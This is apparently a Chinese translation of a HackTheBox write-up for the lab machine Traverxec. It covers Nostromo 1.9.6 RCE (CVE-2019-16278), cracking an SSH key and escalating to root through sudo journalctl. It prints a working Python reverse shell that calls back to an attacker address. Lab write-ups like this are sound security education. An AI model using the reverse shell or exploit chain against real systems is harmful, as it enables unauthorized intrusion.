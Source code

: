 # Traverxec — HackTheBox 记录

> 原文：<https://infosecwriteups.com/traverxec-hackthebox-writeup-ed58642e94d8?source=collection_archive---------0----------------------->

## Traverxec 是一款容易难度的机器，本周退役。我们通过利用 Nostromo 目录遍历/ RCE 获得初始访问权限。枚举 Nostromo 配置文件，我们知道 Nostromo 的主目录，它是作为特权用户运行的。对于 root 用户，我们利用了`journalctl`上的 sudo 特权

![](img/f79b5ef3d1ef1bf03f4e58e11380b5a7.png)

# 列举

像往常一样，让我们从 Nmap 扫描开始。

```
**Nmap scan report for 10.10.10.165
Host is up (0.15s latency).****PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
```

`**nostromo**`盒子上运行的是 1.9.6 版本。快速谷歌搜索显示，它容易受到目录遍历 RCE。

[](https://www.exploit-db.com/exploits/47837) [## 攻击性安全利用数据库档案

### nostromo 1.9.6 -远程代码执行。CVE-2019-16278。多平台远程利用

www.exploit-db.com](https://www.exploit-db.com/exploits/47837) 

```
**root@kali:~/htb/boxes/traverxec# python 47837.py -h****_____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/****Usage: cve2019-16278.py <Target_IP> <Target_Port> <Command>**
```

好的，这需要 3 个参数，IP，端口，命令。

![](img/ec5371a2cec5c15e1140e6898abdbb36.png)

嘣，我们有代码执行。

# 作为 www-data 的 Shell

这是我的反向 shell 代码的内容，

```
**root@kali:~/htb/boxes/traverxec# cat pythonshell.py 
import socket,subprocess,os;****s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);****s.connect(("10.10.14.31",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);**
```

![](img/49f09af5d4b83c74b47fc794855da9b0.png)

枚举文件系统，我们找到配置文件`nhttpd.conf`

```
www-data@traverxec:/var/nostromo/conf$ cat nhtt*
cat nhtt*
# MAIN [MANDATORY]servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html# LOGS [OPTIONAL]logpid                  logs/nhttpd.pid# SETUID [RECOMMENDED]user                    www-data# BASIC AUTHENTICATION [OPTIONAL]htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd# ALIASES [OPTIONAL]/icons                  /var/nostromo/icons# HOMEDIRS [OPTIONAL]homedirs                /home
homedirs_public         public_www
```

这里有几件有趣的事情，首先是用户名`david`和认证文件`htpasswd`以及`homedirs`。浏览文档以理解 conf 文件，

 [## 戒灵. ch

### 提示:要在此页面上快速查找您的搜索词，请按 Ctrl+F 或⌘-F (Mac)并使用查找栏。NHTTPD(8)系统…

webcache.googleusercontent.com](http://webcache.googleusercontent.com/search?q=cache:mWxM9bi5aK4J:www.nazgul.ch/dev/nostromo_man.html+&cd=1&hl=en&ct=clnk&gl=in) 

这些是我们感兴趣的线，

> 要通过 HTTP 为用户的主目录提供服务，请通过定义存储主目录的路径来启用 homedirs 选项，通常是 **/home。**
> 
> 主目录的内容处理方式与文档根目录中的目录完全相同。
> 
> 您可以通过 **homedirs_public** 选项定义一个子目录，将主目录中的访问权限限制为一个子目录。

![](img/de21af7a5686154331641ea93ab85e69.png)

`protected-file-area`看起来很有趣。

```
www-data@traverxec:/home/david/public_www/protected-file-area$ cat htaccess
cat .htaccess
realm David's Protected File Area. Keep out!
```

`protected-file-area`的内容

![](img/e744c0ece5a0773080840dc50384b9d0.png)

# www-data ->大卫

将`backup-ssh-identity-files.tgz`转移到我们的盒子上，它有`david`的 ssh 文件夹。私钥`id_rsa`被加密。让约翰去工作吧，他又来了。

![](img/6e7505907f523f7ecaac2f10e57c4aa6.png)

# 大卫->根

大卫的家有单独的`bin`目录。

![](img/236baf5fee8c8182a13ecac1e8227839.png)

`server-stats.sh`在`journalctl`上有一个有趣的 sudo 命令。

> 根据 [gtfobins](https://gtfobins.github.io/gtfobins/journalctl/)
> 
> journalctl 调用默认的分页器，这个分页器可能会更少，其他函数也可能适用。

我缩小了终端的尺寸，这样它就可以调用`less`

![](img/35a0e256fd3acfd05a570267d4e5760c.png)

这就是这周的内容。我希望你喜欢这篇文章。如果你喜欢这篇文章，请随意留下掌声或评论。

**Final** :我喜欢这个盒子的一点是，它不需要运行任何脚本来寻找晦涩的东西，它所需要的只是仔细的枚举，阅读文档，我认为这是任何顶级盒子的标志。

结束，

普瑞瑟姆(赛博 01:[https://twitter.com/cyber01_](https://twitter.com/PreethamBomma_)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)